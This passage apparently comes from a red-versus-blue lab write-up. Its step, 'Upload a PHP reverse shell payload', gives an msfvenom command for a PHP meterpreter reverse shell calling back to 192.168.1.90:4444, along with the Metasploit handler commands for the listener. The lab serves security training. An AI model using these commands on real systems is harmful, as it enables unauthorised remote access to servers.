 ![](https://github.com/raospiratory/Red-vs-Blue-Project/blob/main/Images/webdav.PNG)


### Step 5: Upload a PHP reverse shell payload.
- Using MSFVenom, we will set up a reverse shell, the command: `msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > shell.php`
![](https://github.com/raospiratory/Red-vs-Blue-Project/blob/main/Images/msfvenom.PNG)

- Setting up a listener by following a series of command:
	- `msfconsole` to launch `msfconsole`
	- `use exploit/multi/handler` 
	- `set payload php/meterpreter/reverse_tcp`
	- `show options and point out they need to set the `LHOST` and `LPORT`.
	- `set LHOST 192.168.1.90`
	- `set LPORT 4444`
	- `exploit`
